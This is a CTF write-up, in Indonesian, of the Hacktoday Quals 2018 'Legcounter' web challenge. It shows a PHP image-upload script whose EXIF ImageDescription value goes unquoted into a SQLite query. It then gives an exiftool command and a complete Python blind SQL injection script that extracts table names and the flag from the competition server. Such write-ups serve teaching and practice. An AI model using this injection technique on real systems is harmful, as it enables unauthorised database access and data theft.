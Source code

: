 ```yaml
---
private: 'false'
layout: post
featured: false
published: true
comments: true
modified: 2018-08-05
date: 2018-08-05
title: "Hacktoday Quals 2018 - Legcounter"
tags: [hacktoday]
mathjax: false
category: CTF
description: "Hacktoday Quals 2018 - Legcounter"
chart: null
---
```



### Soal
---

http://103.56.207.107:50001


```php

<?php
include ('init.php');

session_start();
$upload_dir = "uploads/";
$upload_check = 1;
$imageFileType = strtolower(pathinfo($_FILES["legpic"]["name"], PATHINFO_EXTENSION));
$file_ = $upload_dir . md5(random_bytes(32)) . '.' . $imageFileType;

if (isset($_POST["submit"]) && isset($_POST['token'])) {
	$check = getimagesize($_FILES["legpic"]["tmp_name"]);
	if ($check !== false) {
		$upload_check = 1;
	}
	else {
		$upload_check = 0;
	}

	$t = $_POST['token'];
	if ($t != $_SESSION['csrf_token']) {
		die("Token tidak valid!");
	}

	$_SESSION['csrf_token'] = base64_encode(openssl_random_pseudo_bytes(32));
    
    if ($imageFileType != "jpg" && $imageFileType != "png" && $imageFileType != "jpeg" && $imageFileType != "gif") {
		$upload_check = 0;
	}

	if ($upload_check == 0 || !move_uploaded_file($_FILES["legpic"]["tmp_name"], $file_)) {
		die("gagal upload :(");
	}

	$exif = exif_read_data($file_);
	parse_str($exif['ImageDescription'], $exif);
	if(!$exif) die("Gambar tidak valid!");
	$leg = SQLite3::escapeString($exif['leg']);
    
    $db->exec("DELETE FROM Legs Where Session='{$_SESSION['session_token']}';");
	query("INSERT INTO Legs (Session, Leg) VALUES ('{$_SESSION['session_token']}', {$leg})");
	unlink($file_);
    
    $dir = "results/";
	$fname = $dir . sha1(openssl_random_pseudo_bytes(32)) . '.php';
	$f = fopen($fname, "w");
    
    $result = $db->query("SELECT Leg FROM Legs Where Session='{$_SESSION['session_token']}' Limit 1");
	if (count($result) == 1) {
		foreach($result as $res) {
			if ($res['Leg'] == '1') {
				fwrite($f, 'Satu kaki');
			}
			else
			if ($res['Leg'] == '2') {
				fwrite($f, 'Dua kaki');
			}
			else {
				fwrite($f, 'Tidak diketahui');
			}
		}
	}

	fwrite($f, "<?php unlink(__FILE__); ?>");
	fclose($f);
	header("Location: /{$fname}");
	$db = NULL;
}

die();
?>

```

### Writeup
---
Diberikan website yang mempunya fitur untuk upload gambar dan membaca data melalui value dari exif ImageDescription, Jadi gambar yang kita upload akan di proses datanya ketika memiliki value pada "ImageDescription" dan value yang ada di dalamnya akan di passing ke fungsi `parse_str`.


```php

	parse_str($exif['ImageDescription'], $exif);
	if(!$exif) die("Gambar tidak valid!");

```

untuk menambahkan ImageDescription pada gambar kita bisa menggunakan exiftool `exiftool -ImageDescription="leg=1" gambar.jpg` sehingga ketika di upload akan mengembalikan response `Satu kaki`


```php

query("INSERT INTO Legs (Session, Leg) VALUES ('{$_SESSION['session_token']}', {$leg})");

```

pada kode di atas terlihat bahwa input yang kita masukkan dilempar kedalam query, sehingga kita dapat melakukan injeksi, namun terlihat ada filter yang di gunakan untuk mengescape inputan kita menggunakan `$leg = SQLite3::escapeString($exif['leg']);` namun karena input kita tidak di wrap dengan quote di bagian query nya seperti `'{$leg}'` jadi kita dapat melakukan injeksi tanpa menggunakan quote atau double, kemudian kita bisa mengkonstruksikan payload untuk melakukan blind sqlite injection.


```python

import requests
import re
from StringIO import StringIO
from pycurl import *
import os
import pickle

url = "http://103.56.207.107:50001/upload.php"

headers = {
"Cache-Control": "max-age=0", 
"Origin": "http://103.56.207.107:50001", 
"Upgrade-Insecure-Requests": "1", 
"Content-Type": "multipart/form-data", 
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.75 Safari/537.36",
"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8", 
"Referer": "http://103.56.207.107:50001/", 
"Accept-Language": "en-US,en;q=0.9,de;q=0.8,es;q=0.7,id;q=0.6,ms;q=0.5", 
"Connection": "close",
"Cookie": "PHPSESSID=5d42tgrbtj0lifr04f02k3r1e6"
}


def check(data):
	return re.search("Satu kaki", data)

def getToken():
    req = requests.session()
    greptoken = req.get("http://103.56.207.107:50001/", headers=headers)
    token = str(re.search(r"type=\"hidden\" value=\"(.*)\"", greptoken.text).group(1).split("\"")[0]).strip()
    return token

def upload(token):
    c = Curl()
    d = StringIO()
    h = StringIO()
    c.setopt(URL, url)
    c.setopt(POST, 1)
    c.setopt(HTTPPOST, [('legpic', (FORM_FILE, '1leg.jpg')), ('submit', 'Deteksi'), ('token', str(token))])
    c.setopt(COOKIEFILE, 'cookie.txt')
    c.setopt(COOKIEJAR, 'cookie.txt')
    c.setopt(FOLLOWLOCATION, 1)
    c.setopt(WRITEFUNCTION, d.write)
    c.setopt(HEADERFUNCTION, h.write)
    c.perform()
    c.close()
    return d.getvalue()

def blind(kolom,table):
    passwd = ""
    idx = 1

    while (True):
        lo = 1
        hi = 255
        temp = -1
        while(lo <= hi):
            mid = (lo + hi) / 2
            # command = "exiftool -ImageDescription=\"leg=(SELECT CASE when hex(substr({},{},1)) <= hex(char({})) THEN 1 ELSE 2 END FROM {})\" 1leg.jpg".format(str(kolom),str(idx),str(mid),str(table))
            command = "exiftool -ImageDescription=\"leg=(SELECT CASE when hex(substr({},{},1)) <= hex(char({})) THEN 1 ELSE 2 END FROM {}))--+-\" 1leg.jpg".format(str(kolom),str(idx),str(mid),str(table))
            os.system(command)
            res = upload(getToken())

            if check(res):
               hi = mid-1
               temp = mid
            else:
               lo = mid+1
               
        if (hi == 0): break
        passwd += chr(temp)
        print "Result [{}]: {}".format(table,passwd)
        idx += 1

    return passwd
   



# blind("sql","sqlite_master")
# CREATE TABLE Legs (Id INTEGER PRIMARY KEY, Session TEXT UNIQUE, Leg INTEGER)

# blind("name","sqlite_master where name!=char(76,101,103,115) and sql like(char(37,102,108,97,103,37))")
# mysecretflaag

# blind("sql","sqlite_master where name=char(109,121,115,101,99,114,101,116,102,108,97,97,103)")
# CREATE TABLE mysecretflaag (Id INTEGER PRIMARY KEY, thi

blind("this_is_real_flag","mysecretflaag")
#HackToday{blind_sqlite3_injection_via_exif_

```

![Error](../images/legcounter.PNG)
